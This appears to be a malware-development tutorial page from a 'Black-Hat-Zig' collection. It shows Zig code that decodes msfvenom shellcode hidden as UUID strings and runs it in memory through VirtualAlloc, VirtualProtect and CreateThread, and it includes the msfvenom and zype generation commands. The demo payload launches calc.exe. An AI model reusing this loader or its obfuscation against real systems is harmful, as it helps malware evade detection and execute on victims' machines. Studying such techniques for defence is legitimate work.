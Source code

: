 # Execute Via Shellcode

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Payload-Execution/shellcode)

Executing payloads as shellcode involves storing the machine code directly in a
buffer, allocating executable memory, and then jumping to that buffer. The code
here uses the ZYPE tool to generate encrypted shellcode that is decoded at
runtime. After calling Windows APIs such as `VirtualAlloc` and `CreateThread`,
the program transfers control to the shellcode, effectively running the payload
without dropping any additional files. This direct execution model is common in
many droppers and fileless malware samples.

## What is Shellcode?

Shellcode is a sequence of machine instructions, that are designed to be injected into a running program to execute a specific payload.
It often spawns a shell(`cmd.exe` or `powershell.exe` in windows, `/bin/sh` in linux).

## Code Walkthrough

The payload array and deobfuscation function is generated by [ZYPE](https://github.com/cx330blake/zype), you should go install that tool if you haven't. That will make generating encrypted/obfuscated payload to be much more easier.

Declaring all the constants:
````zig title="main.zig"
const std = @import("std");
const windows = std.os.windows;
const print = std.debug.print;

// Windows API types
const PVOID = *anyopaque;
const DWORD = windows.DWORD;
const SIZE_T = usize;
const PBYTE = [*]u8;

// Memory protection constants
const MEM_COMMIT = 0x1000;
const MEM_RESERVE = 0x2000;
const PAGE_READWRITE = 0x04;
const PAGE_EXECUTE_READWRITE = 0x40;

// Windows API functions
extern "kernel32" fn GetCurrentProcessId() callconv(.C) DWORD;
extern "kernel32" fn GetLastError() callconv(.C) DWORD;
extern "kernel32" fn VirtualAlloc(?PVOID, SIZE_T, DWORD, DWORD) callconv(.C) ?PVOID;
extern "kernel32" fn VirtualProtect(PVOID, SIZE_T, DWORD, *DWORD) callconv(.C) windows.BOOL;
extern "kernel32" fn CreateThread(?windows.HANDLE, SIZE_T, *const fn (?PVOID) callconv(.C) DWORD, ?PVOID, DWORD, ?*DWORD) callconv(.C) ?windows.HANDLE;
extern "kernel32" fn HeapFree(windows.HANDLE, DWORD, PVOID) callconv(.C) windows.BOOL;
extern "kernel32" fn GetProcessHeap() callconv(.C) windows.HANDLE;
````

UUID array is generated from the following command (for more information about zype: https://github.com/cx330blake/zype): 
````powershell
1. msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
2. zype -f calc.bin -m uuid
````
This generates us 17 UUID strings and are stored in the `UUID_ARRAY`
````zig title="main.zig"
const UUID_ARRAY: [17][]const u8 = [_][]const u8{
    "E48348FC-E8F0-00C0-0000-415141505251",
    "D2314856-4865-528B-6048-8B5218488B52",
    "728B4820-4850-B70F-4A4A-4D31C94831C0",
    "7C613CAC-2C02-4120-C1C9-0D4101C1E2ED",
    "48514152-528B-8B20-423C-4801D08B8088",
    "48000000-C085-6774-4801-D0508B481844",
    "4920408B-D001-56E3-48FF-C9418B348848",
    "314DD601-48C9-C031-AC41-C1C90D4101C1",
    "F175E038-034C-244C-0845-39D175D85844",
    "4924408B-D001-4166-8B0C-48448B401C49",
    "8B41D001-8804-0148-D041-5841585E595A",
    "59415841-5A41-8348-EC20-4152FFE05841",
    "8B485A59-E912-FF57-FFFF-5D48BA010000",
    "00000000-4800-8D8D-0101-000041BA318B",
    "D5FF876F-E0BB-2A1D-0A41-BAA695BD9DFF",
    "C48348D5-3C28-7C06-0A80-FBE07505BB47",
    "6A6F7213-5900-8941-DAFF-D563616C6300",
};

const NUMBER_OF_ELEMENTS: usize = 17;
````

Manually parsing the UUID strings such that they match Windows `UuidFromStringA` behavior (converting each UUID string into a 16-byte binary representation,removing hypens, correcting endianness)
````zig title="main.zig"
fn parseUuidManual(uuid_str: []const u8, buffer: []u8) !void {
    if (buffer.len < 16) return error.BufferTooSmall;

    // UUID format: XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
    // Split into parts: [8]-[4]-[4]-[4]-[12] = 32 hex chars + 4 hyphens

    var clean_hex = std.ArrayList(u8).init(std.heap.page_allocator);
    defer clean_hex.deinit();

    // Remove hyphens to get 32 hex characters
    for (uuid_str) |c| {
        if (c != '-') {
            try clean_hex.append(c);
        }
    }

    if (clean_hex.items.len != 32) return error.InvalidUuidLength;

    // Parse UUID components with correct endianness
    // Windows UUID structure (matches GUID):
    // - First 4 bytes (data1): Little-endian 32-bit
    // - Next 2 bytes (data2): Little-endian 16-bit
    // - Next 2 bytes (data3): Little-endian 16-bit
    // - Last 8 bytes (data4): Big-endian bytes

    const hex_chars = clean_hex.items;

    // Data1 (4 bytes, little-endian)
    const data1 = try std.fmt.parseInt(u32, hex_chars[0..8], 16);
    buffer[0] = @intCast(data1 & 0xFF);
    buffer[1] = @intCast((data1 >> 8) & 0xFF);
    buffer[2] = @intCast((data1 >> 16) & 0xFF);
    buffer[3] = @intCast((data1 >> 24) & 0xFF);

    // Data2 (2 bytes, little-endian)
    const data2 = try std.fmt.parseInt(u16, hex_chars[8..12], 16);
    buffer[4] = @intCast(data2 & 0xFF);
    buffer[5] = @intCast((data2 >> 8) & 0xFF);

    // Data3 (2 bytes, little-endian)
    const data3 = try std.fmt.parseInt(u16, hex_chars[12..16], 16);
    buffer[6] = @intCast(data3 & 0xFF);
    buffer[7] = @intCast((data3 >> 8) & 0xFF);

    // Data4 (8 bytes, big-endian - byte by byte)
    for (0..8) |i| {
        const hex_pair = hex_chars[16 + i * 2 .. 16 + i * 2 + 2];
        buffer[8 + i] = try std.fmt.parseInt(u8, hex_pair, 16);
    }
}
````

This functions iterates over the UUID array to reconstruct the original shell. It allocates a buffer to hold the deobfuscated payload (17 UUIDs x 16 bytes = 272 bytes)
````zig title="main.zig"
fn uuidDeobfuscation(uuid_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    const buffer_size = uuid_array.len * 16;
    const buffer = try allocator.alloc(u8, buffer_size);

    for (uuid_array, 0..) |uuid_str, i| {
        const offset = i * 16;
        parseUuidManual(uuid_str, buffer[offset .. offset + 16]) catch |err| {
            std.debug.print("[!] Failed to parse UUID[{}]: \"{s}\" - Error: {}\n", .{ i, uuid_str, err });
            allocator.free(buffer);
            return err;
        };
    }

    return buffer;
}
````

Steps to follow in the main fucntion: 
- Deobfuscating the UUID array into a shellcode buffer
    ````zig title="main.zig"
    const p_deobfuscated_payload = uuidDeobfuscation(&UUID_ARRAY, allocator) catch |err| {
        print("[!] uuidDeobfuscation Failed With Error: {}\n", .{err});
        std.process.exit(1);
    };
    defer allocator.free(p_deobfuscated_payload);

    print("[+] DONE !\n", .{});

    const s_deobfuscated_size = p_deobfuscated_payload.len;
    print("[i] Deobfuscated Payload At : 0x{x} Of Size : {d} \n", .{ @intFromPtr(p_deobfuscated_payload.ptr), s_deobfuscated_size });

    waitForEnter("[#] Press <Enter> To Allocate ... ");
    ````
- Allocating memory with `VirtualAlloc` and copying the deobfuscated shell code to the allocated memory
    ````zig title="main.zig"
    const p_shellcode_address = VirtualAlloc(null, s_deobfuscated_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) orelse {
        print("[!] VirtualAlloc Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    print("[i] Allocated Memory At : 0x{x} \n", .{@intFromPtr(p_shellcode_address)});

    waitForEnter("[#] Press <Enter> To Write Payload ... ");

    // Copy the payload to allocated memory
    @memcpy(@as([*]u8, @ptrCast(p_shellcode_address))[0..s_deobfuscated_size], p_deobfuscated_payload);

    // Clear the original payload buffer
    @memset(@as([*]u8, @ptrCast(p_deobfuscated_payload.ptr))[0..s_deobfuscated_size], 0);
    ````
- Changing memory protection to executable using `VirtualProtect`
    ````zig title="main.zig"
    var dw_old_protection: DWORD = 0;
    if (VirtualProtect(p_shellcode_address, s_deobfuscated_size, PAGE_EXECUTE_READWRITE, &dw_old_protection) == 0) {
        print("[!] VirtualProtect Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    }

    waitForEnter("[#] Press <Enter> To Run ... ");
    ````
- Creating a new thread to execute shell code using `CreateThread`
    ````zig title="main.zig"
    const thread_handle = CreateThread(null, 0, @ptrCast(p_shellcode_address), null, 0, null) orelse {
        print("[!] CreateThread Failed With Error : {d} \n", .{GetLastError()});
        std.process.exit(1);
    };

    _ = thread_handle; // Suppress unused variable warning

    print("[+] Calculator should launch now!\n", .{});
    waitForEnter("[#] Press <Enter> To Quit ... "); // Pause the execution.

    return;
    ````


**NOTE:** If we don't use `waitForEnter()` here, the main thread might have high possibility to exit before the shellcode being executed. So here we use that function to pause the execution. In practice, we should use `WaitForSingleObject()` function from Windows API to wait until the new thread to finish or the thread it timed out. So that the main thread will not exit before the shellcode execution.
````zig title="main.zig"
// Wait for Enter key by reading entire line
fn waitForEnter(message: []const u8) void {
    print("{s}", .{message});
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}
````

